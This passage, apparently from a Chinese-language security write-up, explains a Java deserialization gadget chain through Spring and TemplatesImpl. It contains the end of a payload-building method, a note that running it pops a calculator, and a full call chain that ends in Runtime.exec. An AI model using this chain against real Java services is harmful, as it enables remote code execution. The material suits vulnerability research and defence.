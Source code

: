 ```java
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());

        return templates;
    }
}
```

执行完毕，计算器被弹出。

![image-20250116212930196](./main.assets/image-20250116212930196.png)

## 调用链

* ObjectInputStream.readObject()
  * SerializableTypeWrapper.MethodInvokeTypeProvider.readObject()
    * SerializableTypeWrapper.TypeProvider(Proxy).getType()
      * AnnotationInvocationHandler.invoke()
        * HashMap.get()
    * ReflectionUtils.findMethod()
    * SerializableTypeWrapper.TypeProvider(Proxy).getType()
      * AnnotationInvocationHandler.invoke()
        * HashMap.get()
    * ReflectionUtils.invokeMethod()
      * Method.invoke()
        * Templates(Proxy).newTransformer()
          * JdkDynamicAopProxy.invoke()
            * AopUtils.invokeJoinpointUsingReflection()
            * Method.invoke()
              * TemplatesImpl.getOutputProperties()
              * TemplatesImpl.newTransformer()
                * TemplatesImpl.getTransletInstance()
                * TemplatesImpl.defineTransletClasses()
                  * TemplatesImpl.TransletClassLoader.defineClass()
                    * Pwner*(Javassist-generated).Runtime.exec()
